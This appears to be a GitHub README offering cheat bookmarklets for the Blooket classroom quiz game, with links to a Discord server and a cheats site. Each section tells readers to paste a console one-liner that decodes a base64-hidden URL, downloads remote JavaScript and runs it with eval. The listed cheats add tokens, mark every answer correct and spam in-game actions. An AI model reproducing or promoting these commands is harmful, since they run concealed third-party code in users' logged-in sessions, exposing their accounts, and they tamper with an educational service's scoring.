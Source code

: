 **Discord server: https://discord.gg/K5xUbuDqmG**

**These bookmarklets are also on: https://schoolcheats.net/blooket**

# global

All these cheats in the folder can be used outside games

# gbasilhacks.js

```js
https://www.gbasil.dev/blooket
```js

# addTokens.js

note: **This cheat also includes adding max xp for the day**

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```

# bypassRandomName.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEJ5cGFzc1JhbmRvbU5hbWUuanM=')).then((res) => res.text().then((t) => eval(t)))
```

# getAllBlooksInGame.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEdldEFsbEJsb29rcy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```

# getEveryAnswerCorrect.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEV2ZXJ5QW5zd2VyQ29ycmVjdC5qcw==')).then((res) => res.text().then((t) => eval(t)))
```

# spamOpenBoxes.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```

# sellDupeBlooks.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDY2OTM2L2dsb2JhbFNlbGxEdXBlQmxvb2tzLmpz')).then((res) => res.text().then((t) => eval(t)))
```
